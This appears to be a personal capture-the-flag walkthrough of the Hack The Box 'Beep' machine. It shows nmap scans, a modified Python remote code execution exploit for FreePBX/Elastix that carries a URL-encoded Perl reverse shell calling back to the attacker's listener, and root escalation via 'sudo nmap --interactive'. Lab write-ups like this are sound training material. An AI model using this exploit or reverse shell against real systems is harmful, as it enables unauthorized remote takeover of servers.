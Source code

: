 ![[Pasted image 20240720104740.png]]

**Ping** 
![[Pasted image 20240616222303.png]]

Nmap Default Scan
```
nmap 10.10.10.7 -oN dnmap
```
![[Pasted image 20240616222340.png]]

Nmap Script and Service Scan
```
nmap 10.10.10.7 -sC -sV -A -oN snmap
```
![[Pasted image 20240616224344.png]]
![[Pasted image 20240616224406.png]]


Nmap All Port Scan
```
nmap -p- --min-rate 10000 10.10.10.7 -oN anmap
```
![[Pasted image 20240616232744.png]]

on port 80
![[Pasted image 20240616232808.png]]
Redirected to port 443.

Look's like we have a public exploit for this...!

Found public exploit
https://github.com/infosecjunky/FreePBX-2.10.0---Elastix-2.2.0---Remote-Code-Execution?source=post_page-----51abeb89846c--------------------------------
![[Pasted image 20240616232931.png]]

Need Some modification,
Modified code
```
import urllib.request
import ssl

rhost="10.10.10.7"
lhost="10.10.14.2"
lport=4444
extension="233"


ctx = ssl.SSLContext(ssl.PROTOCOL_TLSv1)
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.request.urlopen(url,context=ctx)

# On Elastix, once we have a shell, we can escalate to root:
# root@bt:~# nc -lvp 443
# listening on [any] 443 ...
# connect to [172.16.254.223] from voip [172.16.254.72] 43415
# id
# uid=100(asterisk) gid=101(asterisk)
# sudo nmap --interactive

# Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
# Welcome to Interactive Mode -- press h <enter> for help
# nmap> !sh
# id
# uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```
Also, we have steps to privilege escalation as well.

Will run the code
```
python3 exp.py
```
![[Pasted image 20240616233150.png]]

Got reverse shell
![[Pasted image 20240616233214.png]]

Will jump to Privilege Escalation....!


As we know the steps from the public exploit, will follow that
```
sudo nmap --interactive
```
```
!sh
```
![[Pasted image 20240616233406.png]]

Will get the flags
root.txt
![[Pasted image 20240616233447.png]]

user.txt
![[Pasted image 20240616233540.png]]


I'm done with beeeep......:)